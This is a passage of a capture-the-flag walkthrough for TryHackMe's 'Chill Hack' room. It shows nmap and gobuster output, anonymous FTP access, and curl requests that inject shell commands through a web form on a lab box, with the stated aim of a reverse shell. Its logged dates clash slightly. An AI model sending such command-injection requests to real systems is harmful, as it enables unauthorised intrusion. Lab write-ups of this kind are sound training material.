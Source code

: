 # Chill Hack

URL: https://tryhackme.com/room/chillhack



Level: Easy



Start time: 1 January 2021, 8:13pm GMT+1


End time: 2 January 2021, 2:15pm GMT+1


Actual play time: 4 hours 26 minutes


## Walkthrough

### Enumeration


#### NMAP


Let's start with a basic nmap scan:

```
# Nmap 7.91 scan initiated Sat Jan  1 20:12:21 2022 as: nmap -T4 -p- -oN 01_nmap 10.10.183.96
Nmap scan report for 10.10.183.96
Host is up (0.059s latency).
Not shown: 65532 closed ports
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

# Nmap done at Sat Jan  1 20:13:12 2022 -- 1 IP address (1 host up) scanned in 50.68 seconds
```

We got 3 open ports. Let's check again with service detection (-sV) and default script (-sC):

```
# Nmap 7.91 scan initiated Sat Jan  1 20:13:58 2022 as: nmap -T4 -p21,22,80 -sV -sC -oN 02_nmap 10.10.183.96
Nmap scan report for 10.10.183.96
Host is up (0.057s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.147.132
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 09:f9:5d:b9:18:d0:b2:3a:82:2d:6e:76:8c:c2:01:44 (RSA)
|   256 1b:cf:3a:49:8b:1b:20:b0:2c:6a:a5:51:a8:8f:1e:62 (ECDSA)
|_  256 30:05:cc:52:c6:6f:65:04:86:0f:72:41:c8:a4:39:cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jan  1 20:14:21 2022 -- 1 IP address (1 host up) scanned in 22.55 seconds
```

According to Apache and OpenSSH version, chances are we are facing an Ubuntu "bionic" 18.04 LTS box:

https://packages.ubuntu.com/search?keywords=apache2


https://packages.ubuntu.com/search?keywords=openssh


### FTP

Since we see that anonymous FTP is allowed, we grab the note.txt file:

```
# ftp 10.10.183.96
Connected to 10.10.183.96.
220 (vsFTPd 3.0.3)
Name (10.10.183.96:root): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
226 Directory send OK.
ftp> get note.txt
local: note.txt remote: note.txt
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for note.txt (90 bytes).
226 Transfer complete.
90 bytes received in 0.00 secs (122.4103 kB/s)
ftp> quit
221 Goodbye.


# cat note.txt
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```

We got a note from Anurodh about some strings filtering mechanism in action. We will see it soon. 


### HTTP


We check target with our browser:

![chillhack1](https://user-images.githubusercontent.com/42389836/147879826-f1fafa42-e605-456b-a890-3bc76d04100b.png)


"Login" and "Register" buttons aren't working, and we see some "Lorem Ipsum" stuff here and there, so we fire up our gobuster:


```gobuster dir -u http://10.10.183.96 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -o 04_gobuster```

We got some results:


```/images               (Status: 301) [Size: 313] [--> http://10.10.183.96/images/]
/css                  (Status: 301) [Size: 310] [--> http://10.10.183.96/css/]
/js                   (Status: 301) [Size: 309] [--> http://10.10.183.96/js/]
/fonts                (Status: 301) [Size: 312] [--> http://10.10.183.96/fonts/]
/secret               (Status: 301) [Size: 313] [--> http://10.10.183.96/secret/]
/server-status        (Status: 403) [Size: 277]
```

We open /secret folder and we found a very simple form:


![chillhack2](https://user-images.githubusercontent.com/42389836/147880283-bb625692-cfed-4f7a-a4d4-646cc567dc2e.png)


Let's take a look on HTML source code:


![chillhack3](https://user-images.githubusercontent.com/42389836/147880303-6d4da8a1-1dd1-45bb-9df9-f038cd2e50e0.png)


Let's try if command execution is actually working (id):


![chillhack4](https://user-images.githubusercontent.com/42389836/147880333-39f871e2-9fee-4b8b-8823-1322e2ced624.png)


We got a response, and we know now that webserver is running as www-data user.


Let's try with a different command (ls):


![chillhack5](https://user-images.githubusercontent.com/42389836/147880354-7f9f1a4f-d707-46e0-96e9-e229b8a0e768.png)


This time we got no luck, we are facing some "string filtering" as stated before.


Since our goal is to get a reverse shell, we must find a way to evade that protection.


Meanwhile, we can also use curl to explore some other command:


```
# curl -X POST http://10.10.94.161/secret/index.php -d 'command=uname -ar'
<html>
<body>

<form method="POST">
        <input id="comm" type="text" name="command" placeholder="Command">
        <button>Execute</button>
</form>
<h2 style="color:blue;">Linux ubuntu 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
</h2>
                        <style>
                             body
                             {
                                   background-image: url('images/blue_boy_typing_nothought.gif');
                                   background-position: center center;
                                   background-repeat: no-repeat;
                                   background-attachment: fixed;
                                   background-size: cover;
}
                          </style>
        </body>
</html>
```

Let's obtain a more clean results:


```
# curl -s -X POST http://10.10.94.161/secret/index.php -d 'command=uname -ar' |grep color | awk -F '>' '{ print $2 }'
Linux ubuntu 4.15.0-118-generic #119-Ubuntu SMP Tue Sep 8 12:30:01 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

We found 3 potential system users with "dir" command (we know that "ls" is avoided):


```
# curl -s -X POST http://10.10.94.161/secret/index.php -d 'command=dir /home' |grep color | awk -F '>' '{ print $2 }'
anurodh  apaar  aurick
```










